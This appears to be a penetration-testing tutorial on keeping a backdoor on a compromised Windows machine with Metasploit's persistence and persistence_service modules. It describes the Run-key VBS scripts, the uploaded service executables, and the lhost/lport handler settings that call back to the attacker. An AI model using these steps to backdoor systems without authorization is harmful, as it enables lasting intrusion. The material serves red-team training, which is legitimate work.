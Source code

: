 :orphan:
(windows-persistence-techniques-with-metasploit)=
# Windows Persistence Techniques With Metasploit
 
A lot of hard work goes into exploiting any system and once the system is exploited successfully and would need further more time to pivot into other systems in the network. Maintaining access to the system is very important once the system is compromised. Persistence involves the strategies used by adversaries and red team specialists to keep access to systems even if the system restarts, credentials change, or other interruptions occur. Techniques used for persistence include any access, action, or configuration changes that let them maintain their foothold on systems, such as replacing or hijacking legitimate code or adding startup code. 

This article demonstrates how to maintain access and leave a permanent backdoor in the victim system even if the system is restarted or credentials are changed or any other interruptions. This article assumes that you have already compromised a windows machine and have a meterpreter session along with system privileges. 

![per_1](images/per_1.png)

Type the `ctrl+z` to background the current session in Metasploit and Search for persistence modules by just typing the “search platform:windows persistence” this shows a whole list of persistence modules that can be used to maintain access. 

![per_2](images/per_2.png)

*Following are some of the Metasploit modules which can be used to maintain access to the system.*

## exploit/windows/local/persistence

This is provided by Carlos Perez which is present in Metasploit. This module will install a payload that is executed during boot. It will be executed either at user logon or system startup via the registry value in "`CurrentVersion\Run`" (depending on privilege and selected method). To run this module set the session id, lhost, lport. 
```
set lhost <listner IP address>
set lport <listner port>
Set session ID
```
![per_3](images/per_3.png)

After setting the lhost,lport, session Id. hit enter to run this module. 

This exploit will create a persistent VBS script which will be written to `c:\windows\SystemTemp\KGMRWLnCMls.vbs`. Autoruns allow Windows Explorer to automatically launch programs from inserted storage drives and other media. This exploit will also create an autorun service under the registry editor path due to which service will start running as soon as the victim’s PC starts.
`HKCU/software/microsoft/windows/currentversion/run/sDLuGKZtqBCmc `

![per_4](images/per_4.png)

From the above screenshot, This module will also provide us with a `.rc` file which is saved in `/home/kali` directory. This rc is the Metasploit script that is used to remove the vbs script from the victim's machine. 

![per_5](images/per_5.png)

We will need to set a multi-handler again even if the victim reboots the system. 

## windows/local/persistence_service

This Module will create and upload an executable to a remote host before converting it to a persistent service. It will launch a new service that will launch the payload whenever the service is launched. It is necessary to have administrative or system privileges. The difference between this exploit and the above exploit is that this exploit will create a exe file in /windows/SysTemp folder

To run this module set the session id, lhost, lport. 
```
set lhost <listner IP address>
set lport <listner port>
Set session ID
```
![per_6](images/per_6.png)

From the above screenshot, this module has created `bxlZTk.exe` and uploaded to victim’s systems under the `\windows\SysTemp` directory and this exe will make a persistence service. 

![per_7](images/per_7.png)

When the PC boots up, some of its services start by default, therefore the persistence service exploit generates a new service that launches the payload every time the service is launched. 

![per_8](images/per_8.png)

The previous meterpreter session will be ended if the victim reboots the system. The following commands are required to configure the multi handler to run the payload:
````
set lhost <listner IP address>
set lport <listner port>
Set session ID 
````

## Conclusion

In many circumstances, obtaining an initial foothold on a network or an asset is insufficient, and maintaining access to the system over the long term is crucial for APT/red team professionals. This article demonstrated various techniques Metasploit techniques to maintain access for the long term. 

:::{seealso}
Looking to expand your knowledge of penetration testing? Check out our online course, [MPT - Certified Penetration Tester](https://www.mosse-institute.com/certifications/mpt-certified-penetration-tester.html)
:::